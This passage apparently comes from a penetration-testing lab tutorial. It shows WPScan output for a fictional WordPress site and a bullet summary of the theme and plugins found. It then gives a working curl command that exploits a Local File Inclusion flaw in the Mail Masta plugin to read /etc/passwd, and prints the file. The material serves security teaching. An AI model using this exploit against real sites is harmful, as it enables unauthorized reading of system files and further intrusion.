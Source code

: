 [+] mail-masta
 | Location: http://ir.inlanefreight.local/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://ir.inlanefreight.local/wp-content/plugins/mail-masta/readme.txt

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Jun 20 23:07:09 2022
[+] Requests Done: 35
[+] Cached Requests: 7
[+] Data Sent: 9.187 KB
[+] Data Received: 164.854 KB
[+] Memory used: 224.816 M
</code></pre>
<p>From the scan, we can deduce the following bits of information:</p>
<ul>
<li>The WordPress core version is the latest (6.0 at the time of writing)</li>
<li>The theme in use is <code>cbusiness-investment</code>
</li>
<li>The <code>b2i-investor-tools</code> plugin is installed</li>
<li>The <code>mail-masta</code> plugin is installed</li>
</ul>
<p>The <code>Mail Masta</code> plugin is an older plugin with several known vulnerabilities. We can use <a href="https://www.exploit-db.com/exploits/50226">this</a> exploit to read files on the underlying file system by leveraging a Local File Inclusion (LFI) vulnerability.</p>
<pre><code class="language-shell-session">[!bash!]$ curl http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
</code></pre>